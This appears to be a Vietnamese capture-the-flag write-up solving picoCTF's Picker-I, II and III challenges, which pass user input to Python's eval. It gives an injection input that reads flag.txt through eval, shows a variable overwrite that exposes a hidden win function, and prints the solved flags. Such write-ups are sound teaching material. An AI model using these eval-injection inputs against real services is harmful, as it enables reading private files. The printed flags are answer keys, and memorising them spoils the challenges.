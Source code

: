 # Picker-I & Picker-II

Để exploit được, lỗi ta sẽ cần xem xét hàm win:
```python
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)
```

Ở đây ta thấy flag sẽ được đọc từ file flag.txt. Tiếp theo ta xem xét câu lệnh:
```python
while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      print(user_input + '()')
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
```

Ở đây user_input phải khác "win", nhưng ta có thể gọi hàm open để đọc giá trị từ file flag.txt. Tuy nhiên nó sẽ không in ra nội dung của file do đó ta phải sử dụng được hàm print ở đây.

Để làm được điều này, ta chỉ cần nhập user_input từ bàn phím như sau:
```
==> print(open('flag.txt', 'r').read()), print
```

## Flag:
```
picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}
```

# Picker-III

Để exploit được lỗi, ta cần tìm cách thay đổi func_table từ đó thêm hàm win vào là được.

``len(func_table)`` có giá trị là 128, ta sẽ xóa hàm getRandomNumber và thay thế bằng hàm win sau đó thêm các dấu cách sao cho độ dài func_table đủ 128 kí tự.

```python
func_table = '''print_table                     read_variable                   write_variable                  win                             '''
```

Chọn 3, đặt tên biến là func_table để ghi đè giá trị mới lên giá trị cũ. Sau đó value thì đặt là func_table có hàm win như ở trên:

```
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: '''print_table                     read_variable                   write_variable                  win                             '''
```

Sau đó chọn 1 để hiện ra danh sách các hàm, lúc này ta thấy hàm win.
Chọn 4 để gọi hàm win, và ta thấy đoạn hex.

```
==> 1
1: print_table
2: read_variable
3: write_variable
4: win
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d
```

Giải mã đoạn hex trên bằng python hoặc CyberChef là được:
```python
>>> bytes.fromhex('0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d'.replace('0x', '').replace(' ', '')).decode('utf-8')
'picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_226dd285}'
```

## Flag:
```
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_226dd285}
```
